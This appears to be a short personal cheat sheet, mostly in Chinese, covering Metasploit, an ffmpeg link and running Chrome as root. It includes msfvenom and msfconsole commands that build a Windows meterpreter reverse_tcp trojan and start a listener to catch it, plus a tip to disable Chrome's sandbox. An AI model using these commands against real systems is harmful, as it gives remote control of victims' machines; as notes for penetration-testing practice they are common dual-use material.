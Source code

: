 ## msfconsole
use multi/handler
set LHOST IP
set LPORT 端口
exploit
开始监听

## msfvenom
`-l payloads` 回显所有可生成的木马
`-p windows/meterpreter/reverse_tcp LHOST=IP LPORT=端口 -f exe -o 路径` 可以在 msfconsole 中使用
## ffmpeg
一个视频提帧的应用
[https://www.jianshu.com/p/ddafe46827b7](https://www.jianshu.com/p/ddafe46827b7)
## root 用户
闪退：权限过高
`/opt/google/chrome/google-chrome`

最后一行添加 `--no-sandbox`

<!--stackedit_data:
eyJoaXN0b3J5IjpbMjA5MjI4ODY2MCwxMjQyNDIyNTE2LDE4OD
gxMDE4ODEsNzM1MTY0NzUyXX0=
-->